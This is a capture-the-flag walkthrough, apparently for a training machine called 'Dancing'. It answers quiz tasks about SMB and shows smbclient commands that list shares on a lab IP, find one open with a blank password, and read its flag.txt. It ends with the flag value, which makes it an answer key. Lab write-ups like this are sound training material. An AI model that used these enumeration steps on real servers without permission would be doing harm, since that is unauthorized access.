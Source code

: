 # Dancing

Samba?

## Task 1

> What does the 3-letter acronym SMB stand for?

server message block

## Task 2

> What port does SMB use to operate at?

445

## Task 3

> What is the service name for port 445 that came up in our Nmap scan?

microsoft-ds

```
grep 445 /etc/services
```

```out
microsoft-ds	445/tcp				# Microsoft Naked CIFS
sge-execd	6445/tcp	sge_execd	# Grid Engine Execution Service
```

## Task 4

> What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

-L

```
smbclient -L 10.129.65.131
```

```
Password for [WORKGROUP\rwxrob]:
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

## Task 5

> How many shares are there on Dancing? 

4

## Task 6

> What is the name of the share we are able to access in the end with a blank password?

WorkShares

```
for i in admin c ipc workshares; do echo $i; smbclient "\\\\10.129.65.131\\$i"; done
```

``` out
admin
Password for [WORKGROUP\rwxrob]:tree connect failed: NT_STATUS_BAD_NETWORK_NAME
c
Password for [WORKGROUP\rwxrob]:tree connect failed: NT_STATUS_BAD_NETWORK_NAME
ipc
Password for [WORKGROUP\rwxrob]:tree connect failed: NT_STATUS_BAD_NETWORK_NAME
workshares
Password for [WORKGROUP\rwxrob]:Try "help" to get a list of possible commands.
```

## Task 7

> What is the command we can use within the SMB shell to download the files we find?

get

But you don't need it. Use `more` instead.

```
$ smbclient  "\\\\10.129.65.131\\workshares"
Password for [WORKGROUP\rwxrob]:
Try "help" to get a list of possible commands.
smb: \> get
get <filename> [localname]
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \James.P\> more flag.txt
getting file \James.P\flag.txt of size 32 as /tmp/smbmore.WEjsNC (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
s
```

## Task 8

> Submit root flag

5f61c10dffbc77a704d76016a22f1664


